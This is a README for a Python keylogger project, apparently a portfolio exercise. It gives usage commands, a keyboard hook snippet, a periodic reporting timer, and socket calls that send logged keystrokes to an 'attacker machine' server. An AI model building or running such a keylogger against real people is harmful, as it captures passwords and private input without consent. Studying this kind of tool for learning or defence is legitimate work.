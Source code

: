 # Key_Logger_Socket
## Motivation
Build a portfolio for strong python and networking background<br>
Develop a simple keylogger script with added remote connection feature using python socket module

## Usages
```
Usage:
 -i: interval time (seconds)
 --ip: IP address of the listening server
 -m: method for report the logged key event
```
Example:
```
python Attack_SVR.py
python Key_Logger_Socket.py -i 5 --ip "localhost" -m "chat_svr"
```
### Note
Run Attack_SVR.py on attacker machine
<br>If no method specified, file_reporting will be used.

## Features
### Keyboard module
```
 keyboard.on_release(callback=callback)
```
<br>For every KeyUp events caught by on_release() method from keyboard module, calls the callback funcntion. Callback function would categorize the KeyUp event and populate the log variable. Using callback allow the next line of code to run without having to wait for the return values of on_release()</br>
### Daemon thread and periodic calling
```
timer = Timer(interval=self.interval, function=self.chat_svr_report)
timer.daemon = True
timer.start()
```
Daemon thread will be killed whenever the main thread (Keyboard) dies. Timer class from threading module will allow the function *chat_svr_report* to call itself periodically every [interval] seconds.
### Network Connection
#### Initialize s socket object to create a connection back to attacking server
```
 s = socket.socket(AF_INET,SOCK_STREAM)
```
#### On client side
```
 s.connect()
 s.send()
 s.close()
```
#### On server side
```
 s.bind()
 s.listen()
 s.accept()
```
